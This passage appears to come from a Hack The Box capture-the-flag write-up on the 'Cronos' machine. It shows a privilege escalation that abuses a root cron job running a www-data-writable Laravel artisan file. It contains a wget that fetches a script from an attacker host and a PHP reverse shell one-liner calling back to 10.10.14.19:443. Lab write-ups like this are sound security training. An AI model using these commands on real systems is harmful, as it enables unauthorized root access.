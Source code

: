 ```bash
wget http://10.10.14.19:8000/LinEnum.sh
bash LinEnum.sh > results.txt
```

This makes the results available on the web server at `http://admin.cronos.htb/results.txt`.

I see that I have read access to `/etc/crontab`:

```bash
[00;33m### JOBS/TASKS ##########################################[00m
[00;31m[-] Cron jobs:[00m
-rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab
```

So let's read that.

```bash
www-data@cronos:/home/noulis/.composer/cache$ cat /etc/crontab 

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

`* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1` is very interesting.
A root script running every minute in the `/var/www/` directory?
Indeed, the `www-data` user has the ability to modify this script's contents.

```bash
www-data@cronos:/home/noulis/.composer/cache$ ls -la /var/www/laravel/artisan

-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

From here, I add a reverse shell command to the php script.

```php
$sock=fsockopen("10.10.14.19",443);exec("/bin/sh -i <&3 >&3 2>&3");
```

![php reverse shell][]


[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[command exec ls]: /assets/img/htb/cronos/ls-nettool.png
[php reverse shell]: /assets/img/htb/cronos/php-reverse-shell.png
[root shell]: /assets/img/htb/cronos/root-shell.png